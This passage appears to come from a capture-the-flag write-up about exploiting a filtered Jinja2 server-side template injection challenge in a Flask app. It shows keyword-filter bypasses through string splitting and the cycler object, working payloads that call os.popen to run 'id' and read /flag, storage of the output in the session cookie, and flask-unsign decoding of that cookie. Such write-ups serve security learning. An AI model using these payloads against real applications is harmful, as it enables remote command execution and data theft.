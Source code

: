 So basically, we can’t use `if` / `for` / `lipsum`.

Upon reading Jinja2 docs, I’ve found that we can use `Assignments` using the function `set`.

```py
{% set a=payload %}
```

As `lipsum` is filtered because of `sum`, we’ll use the payload that we created in the first challenge with `cycler`.

```py
cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()
```

Our payload to exfiltrate the flag will be:

```py
session.update({'f':cycler['__ini' 't__']['__glo' 'bals__']['os']['popen']('tac /flag')['re' 'ad']()})
```

Our final payload is:

```py
{% set a=session.update({'f':cycler['__ini' 't__']['__glo' 'bals__']['os']['popen']('tac /flag')['re' 'ad']()}) %}
```

```
[len] 114
True
```

Now, we can use it and get the cookie containing the flag.

```shell
$ flask-unsign -d -c "eyJmIjoiY3Jld3s2NmM5MGMwNzkzYzQ1MmY2YjY4MA5ZWYxYzI4YM3OX0iLCJ1c2VyIjoiYWRtaW4ifQ.Y1v7AQ.5NZKstHzeVcckdiYqsLuOWfvLfw"
{'f': 'crew{66c90c0793c452f6b68209ef1c28ac79}', 'user': 'admin'}
```

This is all for this post, I hope you liked these two writeups!